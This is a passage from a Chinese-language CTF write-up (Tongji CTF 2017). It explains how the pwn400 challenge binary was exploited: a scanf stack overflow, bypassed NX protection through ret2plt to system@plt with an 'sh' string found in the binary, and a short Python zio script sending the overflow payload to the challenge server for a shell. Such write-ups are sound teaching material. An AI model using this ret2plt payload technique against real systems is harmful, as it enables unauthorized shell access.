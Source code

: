 成功获得shell，发现当前目录下有flag，cat打开：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn300-pwn.png)

(never guess gin's thoughts)

#### Pwn 400 C语言-还有这种操作-程序设计

```
题目：停车！这不是去幼儿园的车！

nc 10.10.175.209 10004
```

考查使用`ret2plt`绕过`N^X`限制。

IDA F5看一下程序：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn400-f5.png)

`scanf`存在栈溢出。并且注意到程序的`.plt`表中竟然有`system`函数：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn400-f5-system.png)

用gdb-peda看一下开了哪些保护措施：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn400-checksec.png)

发现`N^X`打开，但`PIE`没有打开。暂时不考虑传入shellcode到栈上。又由于目标环境的基址随机化是否打开以及`libc`库版本均不可知，考虑调用`.plt`中的`system`函数并为其传入一个`sh`字符串做参数获得shell。那么哪里有`sh`呢？在gdb-peda中`find sh`一下，发现`Small fish`最后就是`sh`（即`0x80485db`处）：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn400-sh.png)

再看一下`system@plt`的地址：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn400-system.png)

最后用gdb调试计算一下需要多少填充字节才能够覆盖到函数返回地址。

最终可以有以下exploit脚本：

```python
#!/usr/bin/env python

from zio import *

IP = "10.10.175.209"
port = 10004

shellcode = 'A' * 272 + '\x80\x83\x04\x08' + 'AAAA' + '\xdb\x85\x04\x08\n'

conn = zio((IP, port))
#conn = zio("./pwn200")
conn.write(shellcode)
conn.interact()
```
